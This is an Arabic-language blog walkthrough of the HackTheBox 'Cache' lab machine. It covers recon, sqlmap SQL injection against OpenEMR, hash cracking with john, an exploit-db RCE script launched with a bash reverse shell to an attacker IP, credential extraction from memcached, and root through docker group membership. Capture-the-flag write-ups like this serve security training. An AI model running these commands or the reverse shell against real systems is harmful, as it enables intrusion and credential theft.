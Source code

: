 
---
title: hackthebox cache walkthrough (arabic) بالعربية
author: fasto
date: 2020-10-10 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---

<h1>Summary</h1>
<br>
السلام عليكم 
<br>
 hachthebox ساقوم بمشاركة مقال صغير يتحدث على هذا التحدي السيرفير متاح عبر منصة
 <br> هي منصة مختصة باختبار الاختراق في البداية نقوم ببعض الفحص المبدئي نجد كلمة سر واسم مستخدم بالاضافة الى دومين نايم مصاب 
<br> بصلاحية اباشي shell نستغلهما للحصول على sql injection و rce  بثغرتين 
<br>
 privilege escalation اما في مايخص 
 <br>
نكتشف ان اليوزر ينتمي الى مجموعة دوكر نستطيع بذلك الحصول على صلاحيات الروت بكل سهولة     
<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
    nmap نبدا بفحص البورتات باستخدام

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```
نلاحظ وجود 2 بورت
<br>
80 : الخاص بالويب سيرفر
<br>
22: الخاص ب ssh
<br>
لنبدا مع 80                                                                                                                                  
![Desktop View](/img/00.png)
 
sqli عند تصفح السيرفر نجد هناك مربع تسجيل الدخول نجرب 
<br>
 
لكن لا جدوى الموقع ليس مصاب 
<br>
![Desktop View](/img/0.png)


<h4>Enumeration</h4>

نشغل dirb
<br>
بالامر التالي

![Desktop View](/img/1.png)
  javascript نلاحظ وجود 2 مجلدات  
و
<br>
jquery
<br>
عند فتح المجلد الثاني نجد هناك ملف بداخله  كلمة سر و كلمة مستخدم لنحتفظ به ونستمر بالبحث 
<br>password : H@v3_fun
<br>username : ash

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
نبحث عن دومين باستخدام
<br>
ffuf

![Desktop View](/img/3.png)
<br>
 hms وجدنا دومين اسمه

نضع الدومين في ملف 
<br>
/etc/hosts
<br>
```
10.10.10.188    hms.htb
```
نتصفح الدومين الجديد 
![Desktop View](/img/4.png)
 بعد البحث في جوجل نجد ان التطبيق الشغال في هذا الدومين مصاب بثغرة الحقن
<br></br>
وجدنا هذا الفيديو على يوتيوب يشرح هذه الثغرة
<br>
https://www.youtube.com/watch?v=DJSQ8Pk_7hc
<br>
نتبع الخطوات كما هو موضح في الفيديو
<br>
burp نلتقط الريكوست باستخدام برنامج 
![Desktop View](/img/5.png)

نقوم بحفظ الريكوست في ملف 
![Desktop View](/img/6.png)
<br>
sqlmap ثم نقوم بالحقن باستخدام 
<br>
```sqlmap -r om.req  --dbs```
<br>om.req ---> الريكوست السابقة
<br>
\--dbs  ---> عرض قواعد البيانات

![Desktop View](/img/7.png)
<br>
وجدنا اسم قاعدة البيانات
![Desktop View](/img/8.png)
<br>
لنستخرج الجداول الان
``` sqlmap -r login.req -D openemr --table ```
<br>
<br>-D      ---> اسم قاعدة البيانات
<br>--table ---> استخراج الجداول
<br>  
الان استخرجنا كل الجداول الان نسحب كلمة السر واليوزر المتواجد في الجدول
<br>
users_secure
<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
وجدنا كلمة سر مشفرة
<br>
john نفك تشفيرها باستخدام برنامج
  <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
xxxxxx حصلنا على كلمة سر 
 
<br>
نجد انها صحيحةopenemr عند تجريبها في    
 
<br>   rce من البحث السابق وجدنا ايضا ان البرنامج مصاب بثغرة
ووجدنا ايضا سكريبت الاستغلال
نحمله من هنا
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```
<br>
 الخاص بك ip ضع  
10.10.14.212  :مكان

<br> الان دخلنا الى السيرفر
لكن بصلاحيات اباشي
<h4>Privilege Escalation</h4>

باستخدام الامر التالي نلاحظ ان البورت 11211 مفتوح
<br>
```netstat -plant```
<br>
  memcached هذا البورت خاص ب 
![Desktop View](/img/14.png)


```netstat -plant```
<br>لنقم بسحب البيانات
<br>  telnet عبر memcached نتصل ب   
```telnet localhost 11211```
<br>  STAT command نكتب الامر التالي  
```STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```
ثم
stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
حصلنا على اليوزر
```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
حصلنا على كلمة السر
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>
 ssh حصلنا على اليوزر و كلمة السر لنجرب الاتصال عبر 
<br>
<br>

  doker ينتمي الى المجموعة  luffy نكتشف ان اليوزر
 

<br>
gtgobins  نذهب الى موقع
```https://gtfobins.github.io/gtfobins/docker/
```
 
  
<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
حصلنا على صلاحيات رووت
